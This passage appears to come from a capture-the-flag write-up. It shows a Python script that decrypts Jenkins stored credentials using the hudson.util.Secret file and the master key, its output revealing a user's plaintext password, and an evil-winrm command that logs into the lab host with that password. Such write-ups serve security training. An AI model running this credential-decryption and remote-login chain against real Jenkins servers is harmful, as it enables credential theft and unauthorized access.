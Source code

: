 ```python
    p = p[iv_length:]
    o = AES.new(secret, AES.MODE_CBC, iv)
    decrypted_p = o.decrypt(p)

    fully_decrypted_blocks = decrypted_p[:-16]
    possibly_padded_block = decrypted_p[-16:]
    padding_length = possibly_padded_block[-1]
    if padding_length <= 16: # Less than size of one block, so we have padding
        possibly_padded_block = possibly_padded_block[:-padding_length]

    pw = fully_decrypted_blocks + possibly_padded_block
    return pw


hudson_secret_key = open("hudson.util.Secret", 'rb').read()
hashed_master_key = sha256(b"f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19").digest()[:16]
o = AES.new(hashed_master_key, AES.MODE_ECB)
secret = o.decrypt(hudson_secret_key)
print(secret)

secret = secret[:-16]
secret = secret[:16]


password = base64.b64decode("AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=")

print(decryptNewPassword(secret, password).decode())


```

```bash
╰─λ python3 dec.py 
b'g[\xe6\x9f\xa8\xe5\x18\x97\xa9\x8d\xe2\x8c\x96\xeb\xd1\x9dB4h\x8e\xdc\xea%P\x87p3,\xc4\x8a\xfc\xf3u?JY?\xb2\xd6\x857:`\x87\x05\x9c\xad@\x98\xc5\xa4$K!\xd9\x05$y\xc6^eX\x88\xf2\xaa\x8a\xa2}\xe2\xee\xb5EQ\xa3P\x03\xf3\xe4\x1aE\x9f\xecEs\xfb\xa2\xd8\xde6\x83\x94\xef|\x03\xfa\x16\xa6\x82\xed7K\xfd1)\xd9\xfb\x8b>L\x1374W\x87<x\xd6\xa7\xabk\xe0\x0f\x1a\xb9\xee[\x8f\'\xed[\x87\x9d\xcdnCq\x95) K\xea\xacwD\xcf\xc1\xfe\xe6\xd5\xf9\xcaZ\xca\x9b\xf8j)az\xb8\xad\xd8\xd2\xba/\xfa2V.\x0c\xb6\xfd\x80t\xe7\xf0\xa8\xae\x1c\x9e\xcatJA\x87\xcdS\xf1e\xb8\x85L5D\xff\x03#\xeb\x19\x80\x1as\x01\xbe\xd7\xc8Z\x82\xe4\xf1\xc6\xe5\x97\xdcf\x18\xd9{\x01\x02Q\x06"\xc6\xe8R3\x17]\xab;\xbf\x805\xe3\x85s\xdf\x9f\rDa{\xdd\xbeG\xdf\xec\xc2_\xbaa\xbb\xa3\xd5q::::MAGIC::::\x03\x03\x03'
c1cdfun_d2434
```

`oliver:c1cdfun_d2434`

#### Winrm to box


```
./evil-winrm.rb -i 10.129.96.74 -u oliver -p c1cdfun_d2434
```
